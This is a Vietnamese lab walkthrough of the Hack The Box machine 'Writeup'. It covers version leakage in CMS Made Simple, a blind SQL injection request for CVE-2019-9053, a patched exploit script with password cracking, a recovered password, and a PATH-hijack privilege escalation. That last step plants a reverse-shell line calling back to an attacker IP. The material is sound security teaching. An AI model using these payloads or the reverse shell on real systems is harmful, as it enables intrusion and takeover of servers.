## Task 1


> robots.txt
## Task 2


Chúng ta truy cập vào đường dẫn robots.txt của trang web để xem nội dung



> /writeup
## Task 3


Khi vào đường dẫn bị ẩn trên chúng ta thấy được


> CMS Made Simple
## Task 4


Tìm được đường dẫn quản trị là `/admin` tuy nhiên thử nhiều credential mặc định thì lại không được nên thử xem đường dẫn là leak thông tin version không

Vì CMS Made Simple ** có sẵn thư mục `/doc/`** trong package cài đặt, chứa các file documentation mặc định:
```
/doc/
├── CHANGELOG.txt    ← lịch sử thay đổi, chứa version
├── AUTHORS.txt
├── README.txt
└── ...
```
Đây là file tĩnh nằm trong source code gốc của CMS, khi admin cài xong mà **không xóa hoặc restrict access** thì ai cũng truy cập được qua web.

**Không riêng CMS Made Simple** — hầu hết CMS đều có kiểu này:

|CMS|Path leak version|
|---|---|
|CMS Made Simple|`/doc/CHANGELOG.txt`|
|WordPress|`/readme.html`, `/feed/`|
|Joomla|`/administrator/manifests/files/joomla.xml`|
|Drupal|`/CHANGELOG.txt`, `/core/CHANGELOG.txt`|
Đây là lý do trong hardening checklist luôn có bước **xóa hoặc block truy cập các file documentation mặc định**. Nhưng thực tế rất nhiều admin bỏ qua bước này.



Chúng ta có được version 2.2.9.1 giờ đi search xem dính CVE nào


Thông tin có vẻ gây hơi hoang mang nhưng khi search google thì chúng là một


> SQL Injection

### CVE-2019-9053
Module **News** của CMS Made Simple nhận parameter `m1_idlist` từ user input và **đưa thẳng vào SQL query mà không sanitize**.

**Request bình thường:**
```
/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=1
```

**Request exploit:**
```
/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=1) AND (SELECT SLEEP(5))--
```
Server delay 5 giây → confirm SQL Injection. Vì không trả kết quả trực tiếp nên phải dùng **blind technique** — đoán từng ký tự dựa vào response time.
## Task 5


Tuy nhiên script này đang chạy python2nên xuất hiện nhiều vấn đề, chúng ta cần chuyển đổi sang python3 để tránh lỗi thư viện
```python
2to3 -w 46635.py
python3 46635.py -u 'http://10.129.72.12/writeup' -w /usr/share/wordlists/rockyou.txt --crack
```
Chương trình phải dò từng kí tự nên chạy hơi lâu và bên trong cũng có sẵn hàng crack cho chúng ta, chương trình sẽ lấy password + salt trong wordlist để md5 hash xem có khớp với password hash tìm được hay không từ đó chúng ta có plaintext

Tuy nhiên script chạy sẽ bị lỗi


Chúng ta cần phải sửa hai chỗ
```python
if hashlib.md5(str(salt) + line).hexdigest() == password:

# Thành
if hashlib.md5((str(salt) + line).encode('utf-8')).hexdigest() == password:
```
và
```python
dict = open(wordlist)

#Thành
dict = open(wordlist, errors='ignore')
```
Việc chỉnh sửa này là vì Python 2 string mặc định là bytes còn Python 3 string mặc định là unicode mà hashlib.md5() chỉ nhận bytes nên mới gây lỗi. Sau khi thử vài lần do mạng chậm chờn

Sau khi chạy vài lần chúng ta có được mật khẩu
> raykayjay9
## User Flag

Thử SSH với user jkr chúng ta tìm được user.txt

## Task 7


Chúng ta xem thử user đang thuộc group gì


Trên Debian, group `staff` cho phép user **ghi vào `/usr/local/`** mà không cần root. Đây là convention chuẩn của Debian:

> staff
## Task 8


Trên Debian/Ubuntu, khi user SSH login, hệ thống tự động chạy **tất cả script** trong thư mục `/etc/update-motd.d/` để hiển thị Message of the Day (MOTD).
```bash
cat /etc/update-motd.d/*
```


## Root Flag
Hàm trên sẽ được chạy mỗi khi user login và không có đường dẫn tuyệt đối nên sẽ sử dụng `$PATH` và chúng ta có 
```bash
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

jkr@writeup:~$ which uname
/bin/uname
```
Vậy nghĩa là chúng ta chỉ cần tạo một uname đọc hại bên trong `/usr/local/bin/uname` vì đây là user thuộc group staff nên có đầy đủ quyền ghi vào
```bash
echo '#!/bin/bash
bash -i >& /dev/tcp/10.10.14.245/4444 0>&1
' > /usr/local/bin/uname

chmod +x /usr/local/bin/uname
```
Chúng ta thoát và ssh lại để trigger cái này

